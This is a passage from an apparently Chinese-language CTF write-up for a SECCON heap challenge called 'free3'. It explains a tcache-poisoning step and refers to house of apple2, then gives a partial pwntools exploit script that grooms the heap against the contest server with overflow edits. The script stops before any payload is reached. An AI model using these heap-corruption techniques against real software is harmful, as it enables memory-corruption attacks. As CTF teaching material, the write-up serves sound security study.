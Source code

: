 4. tcache poisoning
当我们爆破堆地址时，我们就可以操纵一个 smallbin 里面的块，但是我们现有条件很难打 house of Lore 之类的针对 smallbin 的方法，不如上 tcache poisoning     
这时候我们再往链表里面扔一个 smallbin chunk，它的 next 指向了 0x7f...ef0 which in turn 指向了 0x7f...f00   
我们通过操纵 0x7f...ef0 的 fake Data struct，把 0x7f...f00 处的内存改向 tcache_chunk_addr - 0x10 然后 release(0x7f51) 把 tcache chunk - 0x10 链入题目链表，就可以操纵 tcache chunk 的 fd 了!!   
接下来就是常规的 house of apple2，就不多赘述了    

## exp
```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
libc = ELF("./libc.so.6")
p=remote("free3.seccon.games",8215)
# p=process("./chall")
def add(siz):
    p.sendlineafter("> ", "1")
    p.sendlineafter("size: ", str(siz))
    p.recvuntil("ID:")
    index = int(p.recvline().decode().strip("\n").split(" ")[0], 16)
    print(hex(index))
    return index
def edit(index, content):
    p.sendlineafter("> ", "2")
    p.sendlineafter("id: ", hex(index))
    p.sendafter("data", content)

def delete(index):
    p.sendlineafter("> ", "3")
    p.sendlineafter("id: ", hex(index))

index1 = add(0x400)
delete(index1)
index2 = add(0x390)
index3 = add(0x1b0)

edit(index3,b"a"*0x1a8+b"\x01\x04"+b"\n")

index4 = add(0x400)
index5 = add(0x3f0)

index6 = add(0x3e0)
delete(index2)
delete(index3)
delete(index4)
delete(index5)
edit(index6,b"a"*0x3d8+b"\x01\x04\n")
delete(index6)
# index8 = add(0x400)

for i in range(25):
    index1 = add(0x400)
    delete(index1)
    index2 = add(0x3f0)
    delete(index2)
    index3 = add(0x3e0)
    edit(index3,b"a"*0x3d8+b"\x01\x04\n")
    delete(index3)


for i in range(7):
    idx = add(0x3d0)
    delete(idx)

```
